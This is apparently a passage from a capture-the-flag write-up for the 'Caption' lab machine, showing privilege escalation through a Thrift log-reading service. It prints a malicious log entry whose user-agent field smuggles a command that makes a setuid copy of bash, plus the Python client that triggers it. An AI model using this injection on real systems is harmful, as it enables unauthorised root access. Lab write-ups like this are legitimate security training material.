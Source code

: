 Step 2: generating supporting python code with thrift

```bash
margo@caption:~/Logservice$ thrift --gen py log_service.thrift
margo@caption:~/Logservice$ python3 -m http.server 8081
Serving HTTP on 0.0.0.0 port 8081 (http://0.0.0.0:8081/) ...

```

Step 3 transferring files: 

```bash
wget http://caption.htb:8081/log_service.thrift
wget -r http://caption.htb:8081/gen-py/
```

Step 4: ssh tunnel

```bash
ssh -i margo_rsa margo@caption.htb -L 9090:localhost:9090
```

Step 5: place malicious log file (I don't do this step initially I simply run the scripts and check for connectivity)

```bash
/tmp/exploit.log

127.0.0.1 "user-agent":"'; cp /bin/bash /tmp/bash && chmod u+s /tmp/bash #"
```

Step 6: make the python client script

```python
import sys
sys.path.append('gen-py')
from thrift import Thrift
from thrift.transport import TSocket
from thrift.transport import TTransport
from thrift.protocol import TBinaryProtocol

# Import the generated Thrift files
from log_service import LogService

def main():
    # Server connection settings
    host = 'localhost'
    port = 9090

    # Set up the transport layer
    transport = TSocket.TSocket(host, port)
    transport = TTransport.TBufferedTransport(transport)

    # Set up the protocol layer (Binary Protocol)
    protocol = TBinaryProtocol.TBinaryProtocol(transport)

    # Create a client using the protocol and the generated LogService class
    client = LogService.Client(protocol)

    # Open the transport layer (establish the connection)
    transport.open()

    try:
        # Call the ReadLogFile method on the server
        file_path = "/tmp/exploit.log"
        log_contents = client.ReadLogFile(file_path)
        print(f"Contents of {file_path}:\n{log_contents}")
    except Thrift.TException as tx:
        print(f"Thrift error: {tx.message}")
```